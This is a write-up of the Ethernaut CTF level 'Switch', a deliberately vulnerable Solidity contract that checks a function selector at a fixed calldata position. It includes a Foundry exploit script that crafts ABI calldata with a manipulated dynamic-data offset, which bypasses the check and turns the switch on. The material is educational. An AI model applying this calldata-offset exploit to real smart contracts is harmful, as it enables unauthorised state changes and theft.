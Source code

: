 # Level 29 - Switch ⏺⏺⏺⏺

{% embed url="https://ethernaut.openzeppelin.com/level/29" %}

### Level Setup

{% hint style="info" %}
Just have to flip the switch. Can't be that hard, right?

**Things that might help:**

Understanding how `CALLDATA` is encoded.
{% endhint %}

### Level Contract

{% embed url="https://github.com/OpenZeppelin/ethernaut/blob/a89c8f7832258655c09fde16e6602c78e5e99dbd/contracts/src/levels/Switch.sol" %}

{% code lineNumbers="true" fullWidth="true" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Switch {
    bool public switchOn; // switch is off
    bytes4 public offSelector = bytes4(keccak256("turnSwitchOff()"));

    modifier onlyThis() {
        require(msg.sender == address(this), "Only the contract can call this");
        _;
    }

    modifier onlyOff() {
        // we use a complex data type to put in memory
        bytes32[1] memory selector;
        // check that the calldata at position 68 (location of _data)
        assembly {
            calldatacopy(selector, 68, 4) // grab function selector from calldata
        }
        require(selector[0] == offSelector, "Can only call the turnOffSwitch function");
        _;
    }

    function flipSwitch(bytes memory _data) public onlyOff {
        (bool success,) = address(this).call(_data);
        require(success, "call failed :(");
    }

    function turnSwitchOn() public onlyThis {
        switchOn = true;
    }

    function turnSwitchOff() public onlyThis {
        switchOn = false;
    }
}
```
{% endcode %}

### Exploit

{% tabs %}
{% tab title="Anvil" %}
```bash
make anvil-exploit-level-29

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}

{% tab title="Holesky" %}
```bash
make holesky-exploit-level-29

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}
{% endtabs %}

{% tabs %}
{% tab title="Exploit Deployment Script" %}
{% embed url="https://github.com/EridianAlpha/ethernaut-foundry/blob/5b6f223f2f9512f3e0f6bac0306dbc2032111051/script/Level29.s.sol" %}

{% code title="script/Level29.s.sol" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {Script, console} from "forge-std/Script.sol";
import {HelperFunctions} from "script/HelperFunctions.s.sol";

// ================================================================
// │                        LEVEL 29 - SWITCH                     │
// ================================================================

interface ISwitch {
    function flipSwitch(bytes memory _data) external;
    function offSelector() external returns (bytes4);
}

contract Exploit is Script, HelperFunctions {
    function run() public {
        address targetContractAddress = getInstanceAddress();
        ISwitch switchContract = ISwitch(targetContractAddress);

        vm.startBroadcast();
        bytes4 flipSwitchSelector = bytes4(keccak256("flipSwitch(bytes)"));
        bytes4 offSelector = switchContract.offSelector();
        bytes4 onSelector = bytes4(keccak256("turnSwitchOn()"));

        bytes memory callData = abi.encodePacked(
            flipSwitchSelector, // 4 bytes - 30c13ade (flipSwitch selector)
            uint256(0x60), // 32 bytes - offset for the data field
            new bytes(32), // 32 bytes - zero padding
            offSelector, // 4 bytes - 20606e15 (turnSwitchOff selector)
            new bytes(28), // 28 bytes - zero padding
            uint256(0x4), // 4 bytes - length of data field
            onSelector // 4 bytes - 76227e12 (turnSwitchOn selector)
        );

        // Call flipSwitch with this manipulated data
        (bool success,) = targetContractAddress.call(callData);
        require(success, "Call failed");

        vm.stopBroadcast();
    }
}
```
{% endcode %}
{% endtab %}
{% endtabs %}

Submit instance... 🥳

### Completion Message

{% hint style="info" %}
Assuming positions in `CALLDATA` with dynamic types can be erroneous, especially when using hard-coded `CALLDATA` positions.
{% endhint %}

### Notes

{% embed url="https://github.com/highskore/ethernaut-foundry/blob/main/test/Switch.t.sol" %}
